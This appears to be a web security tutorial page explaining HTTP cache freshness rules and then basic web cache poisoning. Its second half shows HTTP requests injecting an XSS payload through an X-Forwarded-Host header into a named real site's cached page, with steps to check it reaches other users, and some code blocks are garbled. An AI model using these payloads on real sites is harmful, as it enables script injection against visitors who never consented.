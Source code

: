 ### Freshness

Once a resource is stored in a cache, it could theoretically be served by the cache forever. Caches have finite storage so items are periodically removed from storage \(cache eviction\).

As HTTP is a client-server protocol, servers can't contact caches and clients when a resource changes, they have to communicate an expiration time for the resource. Before this expiration time, the resource is **fresh**, after the expiration time, the resource is **stale**. Eviction algorithms often privilege fresh resources over stale resources.

The freshness lifetime is calculated based on several headers: 1. If a `Cache-control: max-age=N` header is specified, then the freshness lifetime is equal to N, 2. Else if an [Expires](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Expires) header is specified, then the freshness lifetime is equal to the value of `Expires` header minus the value of the [Date](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date) header. 3. Else if Last-Modified header is present, then the freshness lifetime is equal to the value of the `Date` header minus the value of the `Last-Modified` header divided by 10.

### Basic Cache Poisoning

Let's take a look at Red Hat's homepage:

\`\`\`http request GET /en?cb=1 HTTP/1.1 Host: www.redhat.com X-Forwarded-Host: canary

HTTP/1.1 200 OK Cache-Control: public, no-cache ...

```text
Here the `X-Forwarded-Host` header has been used by the application to generate an Open Graph URL inside a meta tag.
 The next step is to explore whether it's exploitable – start with a simple XSS payload:

```http request
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

That response will execute arbitrary JavaScript against whoever views it. Don't let the `Cache Control: no-cache` header dissuade you – it's always better to attempt an attack than assume it won't work.

The final step is to check if this response has been stored in a cache so that it'll be delivered to other users. You can verify this first by sending the request without the malicious header, and then by fetching the URL directly in a browser on a different machine:

\`\`\`http request GET /en?dontpoisoneveryone=1 HTTP/1.1 Host: www.redhat.com

HTTP/1.1 200 OK ...

alert\(1\)"/&gt;

\`\`\`

> More examples: [Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)

## References

* [HTTP caching](https://developer.mozilla.org/en-US/docs/Web/HTTP/Caching)
* [Cache-Control](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control)


